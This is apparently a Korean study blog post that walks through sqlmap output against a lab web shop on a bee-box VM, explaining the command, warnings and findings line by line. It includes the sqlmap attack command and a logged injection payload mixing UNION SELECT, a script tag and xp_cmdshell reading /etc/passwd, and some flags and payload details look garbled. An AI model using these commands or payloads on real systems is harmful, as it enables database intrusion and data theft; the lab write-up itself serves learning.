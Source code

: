 ```yaml
---
layout: single
title:  "SQLi-sqlmap-03"
categories: coding
tag: [python, blog]
toc: true
author_profile: false
published: false
---
```


**`sqlmap -u "http://192.168.184.137/gmshop/goods_detail. php?goodsIdx=232" -- role -v 3`**: 이 줄은 `sqlmap`이라는 보안 도구를 실행하는 명령어입니다. 이 도구는 웹 애플리케이션의 SQL 삽입 취약점을 찾는 데 사용됩니다. `-u` 옵션은 대상 URL을 지정하고, `--role` 옵션은 특정 데이터베이스 역할에 대한 권한을 테스트하며, `-v 3` 옵션은 출력의 상세 수준을 설정합니다.

![](../images/2024-06-27-SQLi-sqlmap/2024-06-27-14-34-37-image.png)

**`[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal...`**: 이 줄은 sqlmap 사용에 대한 법적 경고입니다. 이 도구를 사용하여 무단으로 공격하는 것은 불법이며, 사용자는 모든 적용 가능한 법률을 준수해야 합니다.

**`[*] starting @ 00:56:22 /2024-06-27/`**: 이 줄은 sqlmap이 시작된 시간을 나타냅니다.

![](../images/2024-06-27-SQLi-sqlmap/2024-06-27-14-35-15-image.png)

**`[00:56:22] [DEBUG] cleaning up configuration parameters`**: 이 줄은 sqlmap이 설정 매개변수를 정리하는 과정을 나타냅니다.

귀하는 쿠키를 선언하지 않았지만 서버는 자체 쿠키를 설정하려고 합니다('PHPSESSID=c6b969bad5d...fec583527e'). 그 [Y/n]을 사용하시겠습니까?

![](../images/2024-06-27-SQLi-sqlmap/2024-06-27-14-38-14-image.png)

**`[00:57:02] [PAYLOAD] 8593 AND 1=1 UNION ALL SELECT 1, NULL, '<script>alert("XSS" )</script>", table_name FROM information_schema.tables WHERE 2>1 -- / ** /; EXEC xp_cmdshell( 'cat .. / .. / .. /etc/passwd' )#`**: 이 줄은 sqlmap이 SQL 삽입 테스트를 위해 사용하는 페이로드입니다. 이 페이로드는 데이터베이스에서 정보를 추출하려고 시도합니다.

**`[00:57:04] [WARNING] GET parameter 'goodsIdx' does not appear to be dynamic`**: 이 줄은 GET 매개변수 'goodsIdx’가 동적으로 변경되지 않는 것으로 보인다는 경고 메시지입니다.

**`[00:57:05] [INFO] heuristic (XSS) test shows that GET parameter "goodsIdx' might be vulnerable to cross-site scripting (XSS) attacks`**: 이 줄은 GET 매개변수 'goodsIdx’가 크로스 사이트 스크립팅(XSS) 공격에 취약할 수 있다는 정보 메시지입니다.

백엔드 DBMS가 'MySQL'인 것 같습니다. 다른 DBMS와 관련된 테스트 페이로드를 건너뛰시겠습니까? [예/아니요]

MySQL 데이터베이스에서 UNION 및 UNION ALL 쿼리를 테스트하는 데 사용되는 테스트 스크립트가 표시됩니다.

![](../images/2024-06-27-SQLi-sqlmap/2024-06-27-14-43-36-image.png)

GET 매개변수 'goodsIdx'가 취약합니다. 다른 항목(있는 경우)을 계속 테스트하시겠습니까? [예/아니요]

![](../images/2024-06-27-SQLi-sqlmap/2024-06-27-15-00-53-image.png)

이 권한들은 데이터베이스에서 사용자가 할 수 있는 작업을 의미합니다.

이와 동일한 권한들이 각각의 호스트(127.0.0.1, bee-box, localhost)에 대해서도 동일하게 주어져 있음을 알 수 있습니다.
